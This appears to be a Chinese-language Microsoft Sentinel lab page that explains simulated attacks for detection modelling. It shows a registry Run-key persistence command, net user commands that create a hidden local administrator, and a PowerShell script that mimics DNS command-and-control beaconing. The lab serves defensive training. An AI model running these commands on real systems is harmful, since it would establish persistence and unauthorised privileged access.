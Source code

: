 ﻿---
lab:
    title: '练习 4 - 了解检测建模'
    module: '模块 7 - 使用 Microsoft Sentinel 创建检测并执行调查'
---

# 模块 7 - 实验室 1 - 练习 4 - 连接检测建模

### 任务 1：了解攻击

**重要提示：在此练习中你不会执行任何操作。**  这些说明只是阐述你将在下一个练习中执行的攻击。请仔细阅读本页。

攻击模式基于开源项目： https://github.com/redcanaryco/atomic-red-team

>**备注**：为了方便演示实验室，某些设置触发的时间期限较短。

#### 攻击 1 - 通过注册表项添加实现的持久性攻击。

此攻击从命令提示符运行：

```Command
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

#### 攻击 2 - 用户添加和特权提升

攻击将添加新建用户并将新用户提升到管理员组。  这会让攻击者能够使用有特权的其他帐户登录。

```Command
net user theusernametoadd /add
net user theusernametoadd ThePassword1!
net localgroup administrators theusernametoadd /add
```

### 攻击 3 - DNS/C2 

此攻击将模拟命令和控制 (C2) 通信。

```PowerShell
param(
    [string]$Domain = "microsoft.com",
    [string]$Subdomain = "subdomain",
    [string]$Sub2domain = "sub2domain",
    [string]$Sub3domain = "sub3domain",
    [string]$QueryType = "TXT",
        [int]$C2Interval = 8,
        [int]$C2Jitter = 20,
        [int]$RunTime = 240
)
$RunStart = Get-Date
$RunEnd = $RunStart.addminutes($RunTime)
$x2 = 1
$x3 = 1 
Do {
    $TimeNow = Get-Date
    Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
    if ($x2 -eq 3 )
    {
        Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x2 = 1
    }
    else
    {
        $x2 = $x2 + 1
    }
    if ($x3 -eq 7 )
    {
        Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x3 = 1
    }
    else
    {
        $x3 = $x3 + 1
    }
    $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
    Start-Sleep -Seconds $Jitter
}
Until ($TimeNow -ge $RunEnd)
```


### 任务 2：了解检测建模。

本实验室中使用的攻击检测配置循环代表所有数据源，虽然你仅专注于两个特定数据源。

要构建检测，从构建 KQL 语句开始。  你将开始攻击主机，因此将使用代表数据开始构建 KQL 语句。

以下实验室在安装了 Defender for Endpoint Windows 主机和安装了 Sysmon 的 Windows 上运行相同的攻击。  构建检测时，你将看到每一种中数据规范化的差异。

有 KQL 语句后，即可创建分析规则。

触发规则并创建警报和事件后，调查以确定你是否提供了可帮助安全运营分析师进行调查的字段。

接下来，对分析规则进行其他更改。

# 转到练习 5
